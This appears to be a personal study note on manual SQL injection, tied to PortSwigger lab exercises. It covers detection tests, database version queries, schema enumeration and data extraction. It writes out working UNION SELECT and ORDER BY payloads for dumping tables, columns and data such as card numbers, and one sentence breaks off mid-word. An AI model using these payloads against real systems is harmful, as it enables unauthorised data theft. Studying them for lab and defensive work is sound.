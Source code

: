 # Manual Injection Methodology

### **Manual SQL Injection Detection**

SQL injection can be detected manually by using a systematic set of tests against every entry point in the application. This typically involves:

* Submitting the single quote character `'` and looking for errors or other anomalies.
* Submitting some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and looking for systematic differences in the resulting application responses.
* Submitting Boolean conditions such as `OR 1=1` and `OR 1=2, and` looking for differences in the application's responses.
* Submitting payloads designed to trigger time delays when executed within an SQL query, and looking for differences in the time taken to respond.
* Submitting OAST payloads designed to trigger an out-of-band network interaction when executed within an SQL query, and monitoring for any resulting interactions.

### **Determine DB Verison**

* Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software
  * MySQL - SELECT @@version
    * &#x20;'+UNION+SELECT+@@version,+NULL#
  * Oracle - SELECT \* FROM v$version
    * '+UNION+SELECT+BANNER,+NULL+FROM+v$version--
  * PostgreSQL - SELECT version()
* These queries can be linked with a UNION injection using the following syntax:
  * ' UNION SELECT @@version#
* @@version can be replaced with a number of different commands, depending on what you want to retrieve from the database; for example, @@hostname or @@datadir.
* [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
* [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

### Determine the database structure and table names

* &#x20;In order to extract data from the database, we will need to understand the structure of the database.&#x20;
* Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.
* You can query information\_schema.tables to list the tables in the database:
  * SELECT \* FROM information\_schema.tables
* You can then query information\_schema.columns to list the columns in individual tables:
  * SELECT \* FROM information\_schema.columns WHERE table\_name = 'Users'
* For Oracle
  * You can list tables by querying all\_tables:
    * SELECT \* FROM all\_tables
  * And you can list columns by querying all\_tab\_columns:
    * SELECT \* FROM all\_tab\_columns WHERE table\_name = 'USERS'
* We can also get it using a UNION SELECT query (Exmaple for a 5 column table)
  * `input' UNION SELECT 1,2,group_concat(table_name),4,5 FROM information_schema.tables WHERE table_schema=database()#`
* [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
* [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

### **Determine vulnerable columns**

* In order to query the database on any information, you must first find out how many columns the original table being queried has. To achieve this you can use the following statement: `' ORDER BY 1#`
* As our `SELECT` statement must have the same number of columns as the existing statement, we first need to determine the number of columns in the current `SELECT` statement. You can do this with the `ORDER BYn` command. Start at 1, and increment n by 1 until you receive an error.\
  &#x20;◇ `input' ORDER BY 5 #`
* Once you have determined the number of columns, it’s time to identify the vulnerable columns on the page. To do this, we can run the following `UNION SELECT` statement, which will show the numbers of the vulnerable columns on the page. The example if for a `SELECT`statement with five columns.\
  &#x20;◇ `input' UNION SELECT 1,2,3,4,5 #`

### **Determine the column names**

* &#x20;Now we know the tables that exist in the database, we need to understand the structure of the columns in each table.
* The \*  from the above SELECT query can be replaced with whichever piece of information you like from the information\_schema.tables table, such as TABLE\_SCHEMA, TABLE\_NAME, TABLE\_TYPE.
* Once information regarding the tables in the database has been discovered, it becomes possible to query the tables for their columns. This can be achieved using the following syntax:
  * SELECT \* FROM information\_schema.columns WHERE table\_name='Table'
* We can do this with t
* Or we can also get it using a UNION SELECT query:
  * \
    `input' UNION SELECT 1,group_concat(column_name, 0x0a),3,4,5 FROM information_schema.columns WHERE table_name="customers"#`

### Extract data

* &#x20;Now that you know the database schema, including the table names and column names, construct `UNION SELECT` queries to extract the desired data.
* Example DB:  ID ,Firstname ,Lastname ,Email ,PhoneNumber ,CardNum ,ExpDate 3E
  * Basic: `SELECT` `*` `FROM` `user_preferences` `WHERE` `email =` `'';`
  * Always true statements: OR 1=1, OR 2=2, 1 <> 2

[https://portswigger.net/web-security/sql-injection/examining-the-database](https://portswigger.net/web-security/sql-injection/examining-the-database)
